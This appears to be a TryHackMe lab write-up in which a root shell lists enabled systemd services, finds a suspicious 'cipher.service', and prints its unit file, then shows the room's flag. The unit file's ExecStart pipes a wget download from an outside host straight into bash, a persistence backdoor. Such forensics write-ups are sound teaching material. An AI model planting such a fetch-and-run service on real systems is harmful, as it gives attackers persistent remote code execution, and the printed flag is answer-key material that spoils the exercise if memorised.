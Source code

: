 
```bash
root@tryhackme:~# systemctl list-unit-files --type=service | grep enabled
accounts-daemon.service                        enabled         enabled
acpid.service                                  disabled        enabled
alsa-utils.service                             masked          enabled
anacron.service                                enabled         enabled
apparmor.service                               enabled         enabled
apport.service                                 enabled         enabled
avahi-daemon.service                           enabled         enabled
blk-availability.service                       enabled         enabled
blueman-mechanism.service                      enabled         enabled
bluetooth.service                              enabled         enabled
brltty.service                                 disabled        enabled
cipher.service                                 enabled         enabled
cloud-config.service                           enabled         enabled
cloud-final.service                            enabled         enabled
cloud-init-local.service                       enabled         enabled
cloud-init.service                             enabled         enabled
console-setup.service                          enabled         enabled
cron.service                                   enabled         enabled
cryptdisks-early.service                       masked          enabled
...
```



```bash
root@tryhackme:~# systemctl status cipher.service
? cipher.service - Safe Cipher Service
     Loaded: loaded (/usr/lib/systemd/system/cipher.service; enabled; preset: enabled)
     Active: inactive (dead) since Fri 2025-07-11 .... 
   Duration: 321ms
   Main PID: 722 (code=exited, status=0/SUCCESS)
```


```bash
root@tryhackme:/usr/lib/systemd/system# cat cipher.service
[Unit]
Description=Safe Cipher Service

[Service]
ExecStart=/bin/bash -c 'wget NHRoIHBhcnQgLSBoMW5nXyAK.s1mpl3bd.com --output - | bash 2>/dev/null'

[Install]
WantedBy=multi-user.target
Alias=cipher.service
root@tryhackme:/usr/lib/systemd/system#
```

<img width="1346" height="225" alt="image" src="https://github.com/user-attachments/assets/2c719a8f-d18a-4f3c-a9a1-d89ee67afb73" />


```bash
THM{y0
u_g0t_
3v3ryt
h1ng_
d0wn}
```
